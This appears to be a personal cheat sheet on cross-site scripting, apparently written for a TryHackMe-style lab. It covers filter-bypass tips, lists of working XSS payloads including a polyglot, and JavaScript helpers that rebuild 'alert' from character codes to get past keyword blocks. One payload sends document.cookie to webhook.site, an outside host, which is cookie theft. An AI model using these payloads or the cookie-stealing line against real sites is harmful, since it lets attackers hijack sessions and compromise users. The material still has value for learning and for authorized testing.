 # NOTES
   1. Whenever you try any payload for xss.
      1) If value is reflected in response.
      2) If any special characters are html encoded??
   2. What if script or any malicious word is blocked?
      1) There are multiple ways to execute javascript
      2) for eg
      3) in case we are allowed to paste link and it is referenced directly in a HREF tag then <a href="javascript:alert(1)"/>google</a> this payload can be used.
      4) div tag, img tag, and there are many tags who has javascript events loaded.
   3. What if alert is blocked and script is not blocked
      1) convert ascii value of alert and payload to string and paste it in eval, if script is not blocked ... very rare.
   4. What if, we can escape the js by single quotes and comment?
   5. What if, special characters are html encoded?
      1) Here, it is common in php to use htmlentities as encoding function.
      2) But, if we do not set ENT_QUOTES flag...function won't encode ' (single quotes) and we can use it to escape it.
   6. Sometimes,  developer used and trusted PHP_SELF which is the path provided by the user. 
      1) So, this time, if index.php is where response is reflected, try to do something like this -> /index.php/XSS_Payload
      2) Check the source code, if /index.php/1 is reflected in forms tag, then replace 1 with XSS_Payload



# Payloads I used
   ```
   <script>alert(1)</script>
   <script>eval("ale"%2B"rt(1)")</script>
   <script>prompt(1)</script>
   <Script>alert(1)</Script>
   <scr<script>ipt>alert(1)</scr</script>ipt>
   <a href="google.com" onmouseover="alert(1)">google</a>
   <a href="google.com" onmouseout="alert(1)">google</a>
   <a href="google.com" onmousemove="alert(1)">google</a>
   <a href="google.com" onclick="alert(1)">google</a>
   <a href="google.com" onClick="alert(1)">google</a>
   <a href="javascript:alert(1)"/>google</a>
   <img src="zzzz" onErRor="alert(1)"/>
   <div onmousemove="alert(1)" onmouseout="alert(1)"></div>
   "><script>alert(1)</script>//
   '><script>alert(1)</script>//
   "><script>alert(1)</script>
   /index.php/"><script>alert(1)</script>
   #<h1><script>alert('9a9ae151-0c35-4b79-92ff-ddbf76907027')</script></h1>
   #<script>document.write('<img src="webhook.site?c="'%2Bdocument.cookie%2B'"/>')</script>
   <script></script>
   ```

# Payloads from community
   ```
   1. jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
   2. 
   ```

# Functions
   ```
   // --------------------------alert is blocked-----------------------------
   function convertor(num){
      return num.toString().split('').map(Number).map(n => (n || 10) + 64).map(c => String.fromCharCode(c)).join('');
   }

   function asciitochar(arr){
      xd = arr.map(c => String.fromCharCode(c)).join('')
      return xd;
   }

   function toascii(strs){
      xd = strs.split('').map(c => c.charCodeAt(c))
      return xd;
   }

   /* 1 - 49
   2 - 50
   3 - 51
   4 - 52
   5 - 53
   6 - 54
   7 - 55
   8 - 56
   9 - 57 */

   console.log(convertor(3))
   console.log(asciitochar([97, 108, 101, 114, 116, 40, 39, 57, 97, 57, 97, 101, 49, 53, 49, 45, 48, 99, 51, 53, 45, 52, 98, 55, 57, 45, 57, 50, 102, 102, 45, 100, 100, 98, 102, 55, 54, 57, 48, 55, 48, 50, 55, 39, 41]))
   console.log(toascii("'"))

   /* [57, 97, 57, 97, 101, 49, 53, 49, 45, 48, 99, 51, 53, 45, 52, 98, 55, 57, 45, 57, 50, 102, 102, 45, 100, 100, 98, 102, 55, 54, 57, 48, 55, 48, 50, 55] */

   // [97, 108, 101, 114, 116]
   /* [97, 108, 101, 114, 116, 40, 55, 42, 55, 41] */
   /* console.log(asciitochar()) */
   /* console.log(eval([97, 108, 101, 114, 116, 40, 55, 42, 55, 41].map(c => String.fromCharCode(c)).join('')) */
   /* console.log(eval([57, 97, 57, 97, 101, 49, 53, 49, 45, 48, 99, 51, 53, 45, 52, 98, 55, 57, 45, 57, 50, 102, 102, 45, 100, 100, 98, 102, 55, 54, 57, 48, 55, 48, 50, 55].map(c => String.fromCharCode(c)).join(''))) */

   /* [NaN, 97, NaN, 97, 101, NaN, NaN, NaN, 45, 48, 99, NaN, NaN, 45, NaN, 98, NaN, NaN, 45, NaN, NaN, 102, 102, 45, 100, 100, 98, 102, NaN, NaN, NaN, 48, NaN, 48, NaN, NaN] */

   /* console.log(eval([97, 108, 101, 114, 116, 40, 39, 57, 97, 57, 97, 101, 49, 53, 49, 45, 48, 99, 51, 53, 45, 52, 98, 55, 57, 45, 57, 50, 102, 102, 45, 100, 100, 98, 102, 55, 54, 57, 48, 55, 48, 50, 55, 39, 41].map(c => String.fromCharCode(c)).join(''))) */

   console.log(eval([97, 108, 101, 114, 116, 40, 39, 57, 97, 57, 97, 101, 49, 53, 49, 45, 48, 99, 51, 53, 45, 52, 98, 55, 57, 45, 57, 50, 102, 102, 45, 100, 100, 98, 102, 55, 54, 57, 48, 55, 48, 50, 55, 39, 41].map(c => String.fromCharCode(c)).join('')))

   // --------------------------------------------------------------------------
   ```